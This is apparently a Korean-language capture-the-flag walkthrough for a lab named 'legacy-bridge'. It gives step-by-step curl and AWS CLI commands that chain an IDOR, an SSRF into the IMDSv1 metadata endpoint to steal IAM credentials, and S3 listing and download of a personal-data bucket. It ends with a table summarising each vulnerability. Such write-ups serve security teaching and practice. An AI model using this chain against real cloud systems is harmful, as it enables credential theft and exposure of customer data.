

# legacy-bridge - Walkthrough

## Exploitation Route



## Summary

1. **Step 1 - IDOR Enumeration**. file_id 파라미터로 모든 고객 데이터 열거
2. **Step 2 - API 응답 분석**. internal_source 필드 발견 및 SSRF 파라미터 테스트
3. **Step 3 - SSRF로 역할 이름 탈취**. source 파라미터로 v1 API가 IMDS 접근하도록 강제
4. **Step 4 - IMDSv1에서 자격증명 탈취**. AWS 임시 자격증명 획득
5. **Step 5 - 자격증명 검증 & IAM 권한 확인**. 탈취한 자격증명의 권한 확인
6. **Step 6 - S3 데이터 탈취**. 민감한 고객 데이터 다운로드

## Detailed Walkthrough

### Step 1: IDOR 열거

게이트웨이 URL에 접속하면 다음과 같은 포털이 나타납니다.


게이트웨이 URL을 환경변수로 설정합니다.

```bash
GW=http://<gateway-ip>
```

API 포털이 정상 작동하는지 확인합니다.

```bash
curl -s $GW/api/v5/status
```

file_id 파라미터를 변경하며 모든 고객 데이터를 열거합니다.

```bash
curl -s "$GW/api/v5/legacy/media-info?file_id=1"
curl -s "$GW/api/v5/legacy/media-info?file_id=2"
curl -s "$GW/api/v5/legacy/media-info?file_id=3"
```

각 응답을 살펴보면 다음을 발견합니다.
- `customer_name`. 고객명
- `application_id`. 신청 ID
- `file_name`. 파일명
- `internal_source`. v1 백엔드 URL (예: `http://10.10.2.X/api/v1/...`)

---

### Step 2: API 응답 분석

Step 1의 응답에서 `internal_source` 필드에 **v1 백엔드 URL이 노출**되어 있습니다. 이는 API가 이 URL을 처리한다는 신호입니다.

일반적인 웹 API 패턴을 고려하면, 외부 리소스를 fetch하는 기능이 있으면 `source=`, `url=`, `fetch=` 등의 파라미터를 사용합니다. 응답 필드명 `internal_source` → GET parameter로도 `source=`가 있을 가능성이 있습니다.

**source 파라미터 테스트.**

```bash
curl -s "$GW/api/v5/legacy/media-info?file_id=1&source=http://example.com"
```

응답을 분석하면 `backend_response` 필드에 **example.com의 내용이 반환**됩니다. v5 포탈이 source 파라미터를 그대로 v1 백엔드로 전달하고 있다는 뜻입니다.

**이는 SSRF 취약점입니다.** v5 포탈이 임의의 URL에 접근하도록 강제할 수 있습니다.

---

### Step 3: SSRF로 역할 이름 탈취

source 파라미터를 이용해 IMDS에 접근하도록 강제합니다.

```bash
curl -s "$GW/api/v5/legacy/media-info?file_id=1&source=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

응답의 `backend_response` 필드에서 역할 이름을 추출합니다 (형식: `legacy-bridge-Shadow-API-Role-<SUFFIX>`).

---

### Step 4: IMDSv1에서 자격증명 탈취

추출한 역할 이름으로 임시 자격증명을 요청합니다.

```bash
ROLE="legacy-bridge-Shadow-API-Role-<SUFFIX>"

curl -s "$GW/api/v5/legacy/media-info?file_id=1&source=http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE"
```

응답의 `backend_response`에서 자격증명을 추출합니다.
- `AccessKeyId`
- `SecretAccessKey`
- `Token`
- `Expiration`

---

### Step 5: 자격증명 검증 & IAM 권한 확인

탈취한 자격증명으로 환경변수를 설정합니다.

```bash
export AWS_ACCESS_KEY_ID="<AccessKeyId>"
export AWS_SECRET_ACCESS_KEY="<SecretAccessKey>"
export AWS_SESSION_TOKEN="<Token>"
export AWS_DEFAULT_REGION="us-east-1"
```

자격증명이 유효한지 검증합니다.

```bash
aws sts get-caller-identity
```

이 역할이 가진 IAM 정책을 확인합니다.

```bash
aws iam list-role-policies --role-name legacy-bridge-Shadow-API-Role-<SUFFIX>
```

정책의 세부 내용을 확인합니다.

```bash
aws iam get-role-policy --role-name legacy-bridge-Shadow-API-Role-<SUFFIX> --policy-name <policy-name>
```

---

### Step 6: S3 데이터 탈취

접근 가능한 S3 버킷을 나열합니다.

```bash
aws s3 ls
```

대상 버킷 (`prime-pii-vault-*`)을 식별하고 구조를 확인합니다.

```bash
BUCKET="<prime-pii-vault-XXXX>"

aws s3 ls s3://$BUCKET/
```

각 디렉토리를 탐색합니다.

```bash
aws s3 ls s3://$BUCKET/applications/
aws s3 ls s3://$BUCKET/confidential/
```

플래그 파일을 다운로드합니다.

```bash
aws s3 cp s3://$BUCKET/confidential/breach_notice.txt -
```

출력 결과에 플래그가 포함됩니다.

---

## 핵심 취약점 정리

| 단계 | 취약점 | 설명 |
|------|--------|------|
| 1 | IDOR | 접근 제어 없음 - 모든 고객 데이터 노출 |
| 2 | SSRF 발견 | URL 필터링 없음 - 임의 URL 접근 가능 |
| 3 | SSRF 악용 | IMDSv1 메타데이터 서비스 접근 |
| 4 | IMDSv1 | 토큰 검증 없음 - 자격증명 노출 |
| 5 | 과도한 IAM 권한 | Shadow-API-Role이 버킷 전체 읽기 권한 보유 |
| 6 | 모니터링 부재 | 이상 접근 미탐지 |